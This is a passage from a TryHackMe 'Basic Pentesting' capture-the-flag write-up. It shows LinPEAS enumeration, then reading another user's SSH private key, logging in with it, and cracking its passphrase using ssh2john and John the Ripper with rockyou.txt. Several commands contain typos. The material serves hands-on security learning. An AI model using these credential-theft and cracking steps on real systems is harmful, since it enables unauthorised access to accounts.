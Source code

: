 There wasn't much useful information here due to privilege issues, so I moved on to use LinPEAS.
Refer to qn 10 for continuation

## 9. What is the name of the other user you found(all lower case)?

Refer to qn 8. Answer: kay

## 10. If you have found another user, what can you do with this information?

I first copied the linPEAS script that is already available on the THM machine into the target machine using SCP, a way to transfer files between two machines.

![SCP](./img/basicpentesting/scp.webp)

After which, I made the script into an executable and ran it, piping the output to both the console and linpeas.txt.

```bash
cd/dev/shm
chmod +x linpeas.sh
./linpeas.sh | tee linpeas.txt
```

LinPEAS did identify that there is an id_rsa file which should have the SSH private key, so we can retrieve it back to the host, and now it gets more interesting!

```bash
cd /home/kay
ls
cd. ssh/

ls -la
cat id_rsa

nano kay_id_rsa
chmod 600 kay_id_rsa
ssh -i kay_id_rsa kay kay@10.10.38.122
```

![SSH](./img/basicpentesting/ssh.webp)

And we are in! Now, we can get the user flag.

## 11. What is the final password you obtain?

Because we know from the note left on the webserver earlier, Kay has set an easy-to-crack password. So, the tool John The Ripper comes in handy.

Firstly, I had to convert the rsa file into a format suitable for cracking.
Then, I used a popular wordlist, rockyou.txt which was also preinstalled into the THM machine.

```bash
/opt/JohnTheRipper/run/ssh2john.py kay_id_rsa > kay_id_rsa.hash
/opt/JohnTheRipper/run/john kay_id_rsa.hash --wordlist=/usr/share/wordlists/rockyou.txt
```
